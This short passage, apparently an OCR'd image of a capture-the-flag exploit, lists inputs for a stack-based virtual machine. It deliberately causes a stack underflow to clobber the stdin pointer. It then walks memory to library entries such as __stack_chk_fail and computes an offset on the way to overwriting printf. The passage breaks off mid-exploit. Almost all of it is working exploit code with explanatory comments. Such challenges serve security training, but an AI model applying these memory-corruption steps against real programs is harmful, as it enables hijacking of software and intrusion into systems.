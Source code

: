 ```asm
  mov edi, ecx
  mov eax, 60
  syscall

flag:
  .string "flag" 
ENDASM  
pop

# Okay cause stack underflow
1
neg
swap # cause a stack underflow, and swap with stack ptr
pop
pop

# Store the pointer to stdin
#writed
#writed
0
store
1
store

# Note that stdin is now clobbered!
pop
pop
pop
pop
pop
pop
pop
pop
pop
pop
pop
pop
pop
pop
# Now our pointer is at __ctype_b_loc
pop
pop
pop
pop
pop
pop
pop
pop
# Pointer is at __stack_chk_fail with offset 0x7b6
2 # HI
store
3 # LO
store

# Calculate stack: LO + 0x2020a8 - 0x7b6
3
fetch
2103538
add
3
store

# Move pointer to printf
```